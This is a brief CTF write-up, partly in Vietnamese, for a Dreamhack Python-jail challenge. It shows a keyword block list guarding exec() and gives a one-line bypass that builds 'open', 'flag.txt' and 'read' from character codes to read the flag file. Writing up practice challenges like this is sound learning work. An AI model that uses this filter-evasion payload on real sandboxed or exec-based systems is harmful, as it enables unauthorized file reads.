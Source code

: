# Decription

[![](images/2025-07-30_01-30.png)](https://dreamhack.io/wargame/challenges/2068)

## Source
```c
import sys # What's wrong with you, Rootsquare?

def filter_code(user_input): # You cannot use those words.
    banned_word=['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', 'sh', 'break', 'mro', 'cat', 'flag']
    for i in range(0,len(banned_word),1):
        x=banned_word[i]
        if x in user_input:
            return False
    return True

print("Welcome to Python Challenge! Input your code and capture the flag!")
code=input('Input code > ') # Please input your code.
result=filter_code(code) # Check if you used banned word.

if result==True: # If you follow my rule, then I execute your code.
    try:
        exec(code) # (*) Search what does 'exec' means!
    except:
        pass
else:
    print('Your input is blocked.')
```

### Problem

```c
Ta thấy rằng mục đích của chương trình này là chặn các đoạn code nhạy cảm trong banned_word.

open/read/write/system/flag đều bị chặn. Ta không thể trực tiếp gọi các hàm đó để đọc flag được.

Nhưng để ý rằng hàm filter_code chỉ check những từ trong banned_word. Ta có thể nhập theo kiểu ascii/oct/hex để thực hiện yêu cầu mở flag và in ra ngoài.
```
#### Solve
    
SỬ dụng python để tiến hành thwucj thi open, read, write flag

```c
print(getattr(getattr(__builtins__, ''.join(map(chr,[111,112,101,110])))(''.join(map(chr,[102,108,97,103,46,116,120,116]))), ''.join(map(chr,[114,101,97,100])))())
```
![](images/flag.png)
